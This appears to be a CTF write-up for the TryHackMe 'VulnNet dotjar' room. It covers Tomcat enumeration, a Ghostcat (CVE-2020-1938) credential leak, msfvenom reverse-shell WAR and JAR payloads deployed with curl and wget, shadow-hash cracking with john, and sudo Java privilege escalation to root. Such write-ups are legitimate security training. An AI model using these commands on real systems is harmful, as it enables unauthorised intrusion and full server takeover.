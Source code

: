 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar2.png)

Finally I ran the python script.

```python 48143.py <boxip>```

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war```

Then, I uploaded it with curl command as follows

``` curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar2.png)

Now we can view the user flag..

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar3.png)

After doing **sudo -l** we found that we have root permissions to run any java file.

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar4.png)

So we created an exploit using msfvenom 

```py
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar

```
Then i opened a http-server and transferred the payload to the shell using wget 

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar5.png)

```py
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```py
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](https://github.com/bitcriminals/bitcriminals.github.io/blob/main/images/jar6.png)




